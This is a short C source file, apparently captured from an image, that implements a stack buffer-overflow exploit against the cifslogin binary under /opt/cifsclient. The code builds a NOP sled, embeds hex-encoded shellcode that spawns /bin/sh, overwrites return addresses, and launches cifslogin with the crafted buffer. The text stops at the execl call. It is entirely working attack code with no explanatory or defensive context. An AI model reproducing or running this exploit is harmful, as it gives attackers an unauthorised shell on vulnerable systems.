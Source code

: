     #define T_LEN  2304
    #define BUFF_LEN 2176
    #define NOP 0x0b390280

    char shellcode[]=
            "\xe8\x3f\x1f\xfd\xb4\x23\x03\xe8\x60\x60\x3c\x61\x0b\x39\x02"
            "\x99\x34\x1a\x3c\x53\x0b\x43\x06\x1a\x20\x20\x08\x01\x34\x16\x03"
            "\xe8\xe4\x20\xe0\x08\x96\xd6\x03\xfe/bin/shA";
    long addr;
    char buffer[T_LEN];

    main()
    {
            int addr_off =800 ;

            int  n=BUFF_LEN/4,i=0;
            long * ap = (long *) &buffer[BUFF_LEN];
            char * sp = &buffer[BUFF_LEN-strlen(shellcode)];
            long * np = (long *) buffer;

            addr = ((long) &addr_off + T_LEN ) & 0xffffff40 +0x40 ;

            for(i=0;i<n;np[i++]=NOP);
            memcpy(sp,shellcode,strlen(shellcode));
            for(i=0;i<(T_LEN-BUFF_LEN)/4;ap[i++]=addr+addr_off);

            printf("SP=0x%x EXP_SP=0x%x OFF=0x%x (%i)\n",(long)&addr_off & 0xffffff40,addr,addr_off);
            printf("Addr =0x%x NOP_LEN=%i\n",addr+addr_off,BUFF_LEN-strlen(shellcode));
            printf("BUFFER_LEN=%i\n",strlen(buffer));

            execl("/opt/cifsclient/bin/cifslogin","cifslogin","123",buffer,NULL);